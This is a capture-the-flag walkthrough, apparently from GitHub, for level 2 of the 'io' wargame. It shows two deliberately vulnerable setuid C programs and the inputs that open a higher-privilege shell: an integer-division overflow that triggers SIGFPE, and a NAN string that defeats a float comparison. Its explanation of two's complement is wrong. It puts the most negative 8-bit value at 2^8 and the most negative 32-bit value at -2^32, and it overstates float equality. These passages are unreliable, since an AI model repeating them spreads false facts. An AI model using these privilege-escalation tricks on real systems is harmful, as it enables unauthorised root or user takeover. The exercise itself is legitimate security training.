


## First Look

```sh
level2@io:/levels$ ls -la level02*
-r-sr-x--- 1 level3 level2 5329 Oct  4  2011 level02
-r-sr-x--- 1 level3 level2 6940 May 26  2011 level02_alt
-r-------- 1 level2 level2  437 May 26  2011 level02_alt.c
-r-------- 1 level2 level2  495 Apr 13  2015 level02.c
```
There are 2 different binaries one can exploit to proceed to level3.
The challenge authors are very nice to include source code for both of them.

## level02.c
```sh
level2@io:/levels$ file level02
level02: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.18, BuildID[sha1]=aebfcd8c513176fcf9243deeeeda9720979a2ec9, not stripped
```
Info: Dynamically linked, x86 architecture for Intel and ELF binary.
```C
//a little fun brought to you by bla
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
void catcher(int a)
{
        setresuid(geteuid(),geteuid(),geteuid());
	    printf("WIN!\n");
        system("/bin/sh");
        exit(0);
}
int main(int argc, char **argv)
{
	puts("source code is available in level02.c\n");
    if (argc != 3 || !atoi(argv[2]))
        return 1;
    signal(SIGFPE, catcher);
    return abs(atoi(argv[1])) / atoi(argv[2]);
}
```
From above, we see that our goal is to call catcher. `argc` is argument count of a program. It includes the program name itself as argv[0]. Hence, the above program requires `./level02 arg1 arg2` in order to not return 1. Arg2 cannot be zero too hence, this guards against Divison by Zero Error.

When encountering a function like `signal`, we can always consult the man page `man signal`. 

```man
sighandler_t signal(int signum, sighandler_t handler);
```
From the man page, we read that a program can deliver signals in the form of `signum` to the process. This is very familiar to how one usually abort a program via `^C`. In fact, `^C` actually sends a SIGINT to the process.

Back to the code, we see that we have to somehow trigger a `SIGFPE`, floating point error. If you look closely in the man page, you will see a way to do so!



Let us try out division of most negative integer by -1.

## most negative integer?
From our initial information gathering, we know that this is a 32 bit program. 
In computer, numbers are represented by bits. How about signed number? Simple. 
The most significant bit (leftmost) is reserved as *sign bit*.
The number is negative when sign bit is 1 else postive when 0.
### 8 bits example

0b00000001    = +1
0b00000010    = +2
0b00000000    = 0
0b11111111    = -1    
Huh? Why is this so? Won't one expect 0b10000001 to be the answer?
### 2's complement
To represent an integer -12. 
We first calculate what is +12  ->  0b00001100.
1. Flip the bits        0b00001100 -> 0b11110011
2. Add 1                0b11110011 -> 0b11110100 ( -12 )

The most negative number would be 2^8 (0b10000000) in the 8bits register.
Hence for 32 bit, it would be 2^32

```sh
level2@io:/levels$ python
Python 2.7.13 (default, Nov 24 2017, 17:33:09) 
[GCC 6.3.0 20170516] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> 2**32
4294967296L
```
-4294967296 is the most negative number.

```sh
level2@io:/levels$ ./level02 -4294967296 -1
source code is available in level02.c

WIN!
sh-4.3$ id
uid=1003(level3) gid=1002(level2) groups=1002(level2),1029(nosu)
sh-4.3$ whoami
level3
```


## level02_alt.c
```C
/* submitted by noname */
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#define answer 3.141593
void main(int argc, char **argv) {
	float a = (argc - 2)?: strtod(argv[1], 0);
        printf("You provided the number %f which is too ", a);
        if(a < answer)
                 puts("low");
        else if(a > answer)
                puts("high");
        else
                execl("/bin/sh", "sh", "-p", NULL);
}
```
The above took me a while to solve. You might expect keying in 3.141593 to give you an easy shell. However, the trap is that this is a floating point number. In computer science, comparison with a floating point such as `==` can be very dangerous because it can never be true. 
( you can login to level3 and read the write up inside which explains why it will never be true. )

To solve this challenge, you need to recognize that you have to fail the first 2 condition ( a < answer ) and ( a > answer ). Lets read the man page for `strtod`



Turns out that `strtod` allows one to specific special tokens like INF for infinity and NAN for not a number. By specifying NAN, both conditions will fail regardlessly hence allowing us to go into the else function.

```sh
level2@io:/levels$ ./level02_alt NAN
sh-4.3$ id
uid=1002(level2) gid=1002(level2) euid=1003(level3) groups=1002(level2),1029(nosu)
```
